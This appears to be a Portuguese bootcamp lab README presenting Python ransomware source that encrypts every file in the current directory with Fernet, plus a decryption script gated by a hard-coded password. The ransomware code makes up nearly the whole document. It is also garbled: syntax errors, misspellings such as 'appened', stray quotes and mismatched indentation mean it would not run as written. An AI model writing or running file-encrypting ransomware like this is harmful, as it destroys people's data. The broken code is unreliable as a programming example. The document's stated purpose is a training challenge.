 # Lab-Ransomware-
Esse lab foi feito para resolução do desafio do bootcamp de cybersecurity do Santander em parceria com DIO.

#Código utilizado para criação do malware:
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

files []

for file in os.listdir():
         if file == "malware.py" or file == "thekey.key" or file" == "decrypt.py":
                continue
         if os.path.isfile(file):
                  files.appened(file)

print ("Encrypted files:", files)

key =  Fernet.generate_key()
with open("thekey.key", "wb") as thekey:
         thekey.write(key)

for file in files:
        with open(file, "rb") as thefile:
  
             content = thefile.read()
      content_encrypt = Fernet(key).encrypt(content)
      with open(file), "wb") as thefile:
              thefile.write(content_encrypt)

print("All your files has been encrypted!")

#Código para Descriptografar:

#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

files []


for file in os.listdir():
         if file == "malware.py" or file == "thekey.key" or file" == "decrypt.py":
                continue
         if os.path.isfile(file):
                  files.appened(file)
                  print (files)


with open("thekey.key", "rb") as key:
         secretkey = key.read()
passphrase = "CyberSec"
upassword = input ( "Enter the password to decrypt your files:")
  
if upassword == passphrase:
       for file in files:
             with open(file, "rb") as thefile:
                content == thefile.read()
          content_decrypt = Fernet(secretkey).decrypt(content)


        with open(file, "wb") as thefile:
              thefile.write(content_decrypt)
print("You recovered all your files")

else: print("Enter the right password to recover your files:")
